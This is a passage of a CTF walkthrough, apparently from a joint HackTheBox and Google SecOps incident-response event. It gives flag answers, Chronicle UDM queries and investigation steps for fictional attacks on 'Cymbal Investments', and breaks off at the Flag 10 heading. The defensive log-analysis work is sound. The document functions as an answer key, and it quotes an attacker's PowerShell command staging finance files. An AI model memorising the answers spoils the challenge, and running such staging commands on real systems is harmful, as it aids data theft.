# Operation Cymbal: Cold Room — Complete Technical Walkthrough & Reproduction Guide
### Google SecOps & HackTheBox Joint Enterprise Incident Response CTF
**Final Status:** `18/18 FLAGS SOLVED` (100% Completion) | **Total Score:** `2075 Points` | **Rank:** `#1`

---

## 1. Executive Summary & Verification

This document provides a comprehensive, reproducible, step-by-step walkthrough for all 18 challenges in the **HackTheBox & Google Cloud Security** joint event: *Operation Cymbal: Cold Room*. 

Using **Google SecOps (Chronicle SIEM, SOAR Case Queue, and Google Threat Intelligence / GTI)**, we investigated, contained, and fully reconstructed three complex multi-stage attack scenarios executed against **Cymbal Investments**.



### Incident Scenarios Overview

| # | Scenario Name | Category | Points | Flags Solved | Adversary / Campaign |
|:---:|:---|:---|:---:|:---:|:---|
| **1** | **Deceptive Click** | Investigation | 675 | **6 / 6** | FakeUpdates (SocGholish), PowerShell Empire, Kerberoasting |
| **2** | **OAuth Heist** | Threat Hunting | 700 | **6 / 6** | SHINYHUNTERS, Illicit OAuth Consent, Database Exfiltration |
| **3** | **Rogue Synthesis** | AI Misuse | 700 | **6 / 6** | Just-in-Time AI Malware, Gemini API Abuse, CI/CD Pipeline Tampering |
| **TOTAL** | **All Scenarios** | **Joint CTF** | **2075** | **18 / 18** | **Complete Enterprise Incident Resolution** |

---

## 2. Complete Attack Lifecycle Map



---

## 3. Scenario 1: Deceptive Click (Investigation)

### Investigation Background
Curated Detections in the Denver Security Operations Center triggered on a case titled *"PowerShell Download And Execute"*. Tracing the adversary's actions revealed an initial drive-by compromise through a malicious browser update (FakeUpdates), in-memory process hollowing, internal Active Directory Kerberoasting, lateral movement across Windows servers, and data staging of corporate financial audits.

---

### Flag 1: Hostname of the Compromised Denver Workstation
* **Question:** What is the hostname of the compromised endpoint in the Denver office? (expected format: `FAKE-HOST-NAME-000.false.name`)
* **Flag / Value:** `CYM-DEN-W10-042.CYMBAL.CORP`
* **Chronicle Location:** **SOAR Cases Queue** (`/cases`)
* **Step-by-Step Reproduction:**
  1. Open the left navigation menu in Google SecOps and select **Cases**.
  2. Locate **Case ID 54**: *"PowerShell Silent Download And Execute Activity"*.
  3. Expand the **Case Summary** and inspect the **Entities Graph**.
  4. The automated case triage notes:
     > *"An incident began on host `CYM-DEN-W10-042.CYMBAL.CORP` when user spawned a hidden PowerShell process (PID 6124)..."*
  5. The target endpoint hostname is `CYM-DEN-W10-042.CYMBAL.CORP`.



---

### Flag 2: Referer Domain of the Malicious Update Archive
* **Question:** The GTI Malware Profile states that FAKEUPDATES is delivered via compromised third-party websites injecting malicious JavaScript. By analyzing web proxy logs around the time of the download, what is the domain of the compromised blog that served as the referer for the malicious update archive? (expected format: `domainname.com`)
* **Flag / Value:** `marketingtrends-insider.com`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-16 23:59:59 UTC`
* **UDM Query:**
  ```sql
  principal.hostname = "CYM-DEN-W10-042.CYMBAL.CORP" AND metadata.event_type = "NETWORK_HTTP"
  ```
* **Step-by-Step Reproduction:**
  1. Execute the UDM query in SIEM Search.
  2. Switch to the **Aggregations** panel and expand `target.url` or `network.http.referral_url`.
  3. Notice an outbound connection to an external blog domain immediately prior to downloading the fake update payload archive: `marketingtrends-insider.com`.



---

### Flag 3: Target Process ID Injected via Process Hollowing
* **Question:** The secondary payload `d27e15eb.exe` achieved privilege elevation by hollowing into a SYSTEM process. What was the Target Process ID of the specific `svchost.exe` instance injected into on the compromised endpoint? (expected format: `000`)
* **Flag / Value:** `624`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-16 23:59:59 UTC`
* **UDM Query:**
  ```sql
  principal.hostname = "CYM-DEN-W10-042.CYMBAL.CORP" AND (principal.process.file.full_path = /.*d27e15eb\.exe/ OR target.process.file.full_path = /.*svchost\.exe/)
  ```
* **Step-by-Step Reproduction:**
  1. Run the query to isolate process injection and memory tampering events (Sysmon Event ID 8 / `PROCESS_INJECTION`).
  2. Click on the injection event where source process `d27e15eb.exe` targeted `C:\Windows\System32\svchost.exe`.
  3. Expand **Event Fields** > `target.process.pid`.
  4. The Target Process ID is `624`.



---

### Flag 4: Kerberoasting Service Principal Name (SPN)
* **Question:** Following domain reconnaissance, the adversary conducted Kerberoasting against the Domain Controller (`CYM-DC-01`) to harvest service credentials. What is the full Service Principal Name (SPN) requested in the Kerberos TGS ticket? (expected format: `XXXXXXX/FAKE-HOST-NAME-00.false.name:0000`)
* **Flag / Value:** `MSSQLSvc/CYM-DB-01.cymbal.corp:1433`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-16 23:59:59 UTC`
* **UDM Query:**
  ```sql
  metadata.product_event_type = "4769" AND target.hostname = "CYM-DC-01"
  ```
* **Step-by-Step Reproduction:**
  1. Execute the query to retrieve Windows Security Event ID `4769` (*A Kerberos service ticket was requested*).
  2. Look for RC4 ticket encryption requests (`TicketEncryptionType = 0x17`) originating from Denver workstation IP `10.240.32.115`.
  3. Inspect `target.application` or `target.resource.name` in the event fields.
  4. The requested Service Principal Name is `MSSQLSvc/CYM-DB-01.cymbal.corp:1433`.



---

### Flag 5: Username Used for Lateral Movement
* **Question:** Our threat hunting reveals the attacker switched identities using a cracked Kerberos service account. What username was used for subsequent lateral movement? (expected format: `username`)
* **Flag / Value:** `svc_backup`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-16 23:59:59 UTC`
* **UDM Query:**
  ```sql
  target.user.userid = "svc_backup" OR principal.user.userid = "svc_backup"
  ```
* **Step-by-Step Reproduction:**
  1. Search for authentication activity associated with the harvested service accounts.
  2. Identify successful network logons (Event ID 4624, Logon Type 3) to internal file server `CYM-FS-01.cymbal.corp`.
  3. The username used for lateral authentication is `svc_backup`.



---

### Flag 6: Staging Zip Archive Created on File Server
* **Question:** What is the file name of the compressed zip archive created by the attacker on the file server to stage sensitive financial audit files? (expected format: `File_Name.extension`)
* **Flag / Value:** `Financial_Audit_2026.zip`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-16 23:59:59 UTC`
* **UDM Query:**
  ```sql
  principal.hostname = "CYM-FS-01.cymbal.corp" AND (target.process.command_line = /.*zip.*/ OR target.file.full_path = /.*\.zip/)
  ```
* **Step-by-Step Reproduction:**
  1. Run the query on file server `CYM-FS-01.cymbal.corp`.
  2. Inspect the PowerShell execution where `svc_backup` executed `Compress-Archive`:
     ```powershell
     powershell.exe -Command "Compress-Archive -Path 'C:\Shares\Finance_Shares\Q3_Audits\*' -DestinationPath 'C:\Windows\Temp\Financial_Audit_2026.zip'"
     ```
  3. The resulting staging archive name is `Financial_Audit_2026.zip`.



---

## 4. Scenario 2: OAuth Heist (Threat Hunting)

### Investigation Background
A Google Threat Intelligence (GTI) Emerging Threats report on **SHINYHUNTERS** covered cloud credential theft across multi-cloud infrastructure. The adversary sent targeted phishing links to compromise employee credentials, granted unauthorized OAuth consent permissions to an illicit app (`ToogleBox Recall`), leveraged the Gmail API to silently purge multi-factor authentication alerts, downloaded sensitive internal architecture documentation from Google Drive, extracted customer database backups via `sqlcmd`, and exfiltrated the data over an encrypted Zstandard stream.

---

### Flag 7 (S2-F1): Credential Phishing Domain
* **Question:** What is the phishing domain where employee credentials were submitted via an HTTP POST request? (expected format: `domainname.com`)
* **Flag / Value:** `sso-cymbal-portal.com`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  principal.user.userid = "elena.rostova" AND network.http.method = "POST"
  ```
* **Step-by-Step Reproduction:**
  1. Search for all outbound HTTP POST requests from victim employee `elena.rostova`.
  2. In the Results Overview, expand the `target.hostname` column.
  3. Notice an anomalous login POST request directed to the credential-harvesting phishing domain: `sso-cymbal-portal.com`.



---

### Flag 8 (S2-F2): Subject Line of Permanently Deleted Security Email
* **Question:** To prevent the compromised employee from noticing the persistence mechanism, the adversary abused a newly authorized third-party OAuth application to permanently purge security notifications from the victim’s inbox. What is the exact subject line of the first permanently deleted email, which alerted on multi-factor authentication changes? (expected format: `Hello! This is a fake email subject line`)
* **Flag / Value:** `Okta: A new MFA factor was added`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  metadata.log_type = "GSUITE_GMAIL" AND principal.user.userid = "elena.rostova@cymbal-investments.com" AND (security_result.action = "TRASH" OR security_result.action = "DELETE")
  ```
* **Step-by-Step Reproduction:**
  1. Filter Google Workspace Gmail audit logs for deletion actions performed via third-party OAuth tokens.
  2. Locate the message deletion event executed by OAuth Client ID matching `ToogleBox Recall`.
  3. Expand the raw JSON log to inspect the email metadata:
     ```json
     "subject": "Okta: A new MFA factor was added"
     ```
  4. The exact subject line is `Okta: A new MFA factor was added`.



---

### Flag 9 (S2-F3): Sensitive Document Stolen from Google Drive
* **Question:** Continuing to monitor the compromised employee’s cloud activity from the attacker’s proxy infrastructure, what sensitive internal document did the adversary locate and download? (expected format: `File_Name.extension`)
* **Flag / Value:** `Cymbal_Q3_Database_Architecture_and_Service_Accounts.pdf`
* **Chronicle Location:** **SIEM Search** (`/search`)
* **Time Range:** `2026-10-15 00:00:00 UTC` to `2026-10-31 23:59:59 UTC`
* **UDM Query:**
  ```sql
  principal.ip = "23.234.119.110" OR target.ip = "23.234.119.110"
  ```
* **Step-by-Step Reproduction:**
  1. Execute the query using the adversary proxy IP `23.234.119.110` identified in the Okta/Workspace logs.
  2. Inspect the **Gemini Summary** and Google Drive audit events:
     > *"Six Google Workspace events involving `elena.rostova@cymbal-investments.com` were recorded from IP `23.234.119.110`... searching and downloading the file `Cymbal_Q3_Database_Architecture_and_Service_Accounts.pdf` from Google Drive..."*
  3. The stolen document name is `Cymbal_Q3_Database_Architecture_and_Service_Accounts.pdf`.



---

### Flag 10 (S2-F4): Privileged Database Service Account
